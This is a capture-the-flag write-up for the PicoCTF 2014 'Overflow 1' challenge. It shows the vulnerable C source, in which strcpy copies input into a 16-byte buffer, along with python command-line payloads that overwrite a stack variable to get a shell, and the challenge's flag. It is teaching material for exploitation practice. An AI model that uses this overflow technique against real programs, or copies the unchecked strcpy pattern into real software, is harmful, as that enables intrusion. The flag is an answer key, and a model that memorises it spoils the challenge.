 # Pico CTF 2014 : Overflow 1

**Category:** Binary Exploitation
**Points:** 50
**Description:**

>This problem has a buffer overflow vulnerability! Can you get a shell, then use that shell to read flag.txt? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow1/overflow1.html#1), and the source can be found [here](oveflow1.c).

**Hint:**
>Can you overflow into the 'secret' variable?

## Write-up

Looking at the source code, there is an unfortunate error on the programmer's
part. Lucky us :D

```
void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

The program takes input from the terminal as an argument, then calls `strcpy()`
on it. This leads to a buffer overflow attack. This attack allows us to
potentially overwrite variables on the stack, namely `secret`. Let's supply
some bytes to see what happens.

```
/home/overflow1$ ./overflow1 $(python -c 'print "A"*16 + "BBBB"')
The secret is 42424242
```

Some trial and error will reveal that we can control the `secret` variable
after we supply 16 bytes. the 42424242 is the hex values of our "B"s that were
supplied. Let's try to overwrite it with 1337 and get a shell!

```
/home/overflow1$ ./overflow1 $(python -c 'print "A"*16 + "c0deface"')
The secret is 65643063
```
Unfortunately it isn't this simple. **We can only overwrite the byte values of
the characters we provide.** Luckily python has escape sequences.
```
c0deface becomes "\xc0\xde\xfa\xce".
If we adjust it to little endian: "\xce\xfa\xde\xc0"

/home/overflow1$ ./overflow1 $(python -c 'print "A"*16 + "\xce\xfa\xde\xc0"')
$ ls
flag.txt  Makefile  overflow1  overflow1.c
$ cat flag.txt
ooh_so_critical
```
## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/overflow1.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-overflow1/>
